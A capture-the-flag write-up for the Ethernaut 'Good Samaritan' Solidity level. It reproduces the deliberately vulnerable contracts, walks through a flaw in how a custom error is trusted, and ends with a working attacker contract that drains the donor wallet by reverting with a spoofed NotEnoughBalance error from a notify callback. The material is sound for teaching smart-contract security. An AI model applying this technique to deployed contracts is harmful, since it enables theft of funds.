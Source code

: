 # 27 - Good Samaritan

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## Solution

To drain the balance of **`GoodSamaritan`** contract, we can call requestDonation `1_000_000 / 10` times.

But let's take a closer look at what happens when you call `requestDonation()` to see if there's any other way to do that.

```solidity
function requestDonation() external returns(bool enoughBalance){
    // donate 10 coins to requester
    try wallet.donate10(msg.sender) {
        return true;
    } catch (bytes memory err) {
        if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
            // send the coins left
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```

When you call `requestDonation`, this will call `donate10` in **`Wallet`** contract.

And when this call throws a custom error `NotEnoughBalance`, \
it will send the rest of the coins it has.

```solidity
function donate10(address dest_) external onlyOwner {
    // check balance left
    if (coin.balances(address(this)) < 10) {
        revert NotEnoughBalance();
    } else {
        // donate 10 coins
        coin.transfer(dest_, 10);
    }
}
```

And this triggers `transfer` in **`Coin`**.

```solidity
function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];

    // transfer only occurs if balance is enough
    if(amount_ <= currentBalance) {
        balances[msg.sender] -= amount_;
        balances[dest_] += amount_;

        if(dest_.isContract()) {
            // notify contract 
            INotifyable(dest_).notify(amount_);
        }
    } else {
        revert InsufficientBalance(currentBalance, amount_);
    }
}
```

And here, it checks if the `recipient` is a contract.

If it is, it calls `notify` function of `recipient` contract.

We will declare same custom error `NotEnoughBalance()` and throw it when `notify` is called.

```solidity
contract AttackGooodSamaritan is INotifyable {

    error NotEnoughBalance();

    function attack(GoodSamaritan target) external {
        target.requestDonation();
    }

    function notify(uint256 amount) external pure {
        if(amount == 10) {        
            revert NotEnoughBalance();
        }
    }
}
```

Note that we have `if` condition to prevent the transaction from being **reverted** when the rest of the token is sent.\
(This will throw `NotEnoughBalance` only at the first time it requests 10 tokens.)

Done! 😎
